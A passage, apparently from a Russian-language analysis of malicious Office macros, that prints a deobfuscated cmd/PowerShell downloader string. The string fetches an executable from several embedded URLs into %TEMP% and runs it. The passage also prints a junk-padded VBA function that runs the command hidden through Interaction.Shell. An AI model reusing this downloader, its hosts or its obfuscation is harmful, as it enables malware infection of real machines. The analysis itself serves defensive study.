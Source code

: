 ![](/assets/images/ru//OfficeMalware/6_export_arg_str.png)

В итоге эта строка равна:

`c:\onjzioi\izwolr\poicwo\..\..\..\windows\system32\cmd.exe /c %ProgramData:~0,1%%ProgramData:~9,2% /V:ON/C"set SiQ=;'cjqhpb'=qijmnd$}}{hctac}};kaerb;'bchkzfb'=dqkzr$;hkjzjlz$ metI-ekovnI{ )00004 eg- htgnel.)hkjzjlz$ metI-teG(( fI;'jrkjik'=ciikdj$;)hkjzjlz$ ,qjcaki$(eliFdaolnwoD.irhwidj${yrt{)ujbwa$ ni qjcaki$(hcaerof;'exe.'+zbwnifi$+'\'+pmet:vne$=hkjzjlz$;'ziwmvv'=pzrifoh$;'904' = zbwnifi$;'scjmbw'=fmsqvii$;)'@'(tilpS.'41fpegeLDajCgKnc/moc.ssenisubrusoh.www//:ptth@Mw6O63Df_Cm066CcdkU7o/moc.aicizyhp.www//:ptth@j7OEo_7MhAbZp6jnHp/zt.oc.skeegt.liam//:ptth@8or1uzsdZ8vie/RXI/sedulcni-pw/moc.srevirehtybkramdnal//:ptth@R8Fd3N9UmbYBzI/ten.enoniletoh.www//:ptth'=ujbwa$;tneilCbeW.teN tcejbo-wen=irhwidj$;'imsizuu'=iijirwb$ ll%1,3-~:PMET%h%1,4-~:EMANNOISSES%r%1,5~:CILBUP%wop&&for /L %h in (657,-1,0)do set nu=!nu!!SiQ:~%h,1!&&if %h equ 0 echo !nu:~-658!| cmd" `

Эта строка передается в функцию `ziilnp()`, которая имеется следующий синтаксис:
<pre>
Function ziilnp(zdwrhc)
On Error Resume Next
   Select Case bofcsp
      Case 600812771
         zssvqbs = CStr(rfolwz)
         infpjz = CStr(fiuwjmh)
      Case 691931294
         qhplj = cufwqqj
         lcbfq = Hex(751111903)
      Case 693375610
         swkjiw = wiiwsh
         jiuaoso = Log(311238894)
End Select
   Select Case qvkomu
      Case 676369523
         wvhzs = CStr(sffmkpj)
         zwfzq = CStr(maljh)
      Case 613766996
         tljjc = jjqcvpt
         opopw = Hex(446181185)
      Case 540556815
         qvwhtl = dtwfas
         nzjoo = Log(576824669)
End Select
ziilnp = ziilnp(Interaction.Shell(zdwrhc, vbHide))
   Select Case rmwhcfv
      Case 974865143
         wazknzq = CStr(jvdnm)
         jzvuil = CStr(ltmph)
      Case 351660802
         mffqwz = djhiwo
         onwvdm = Hex(505454459)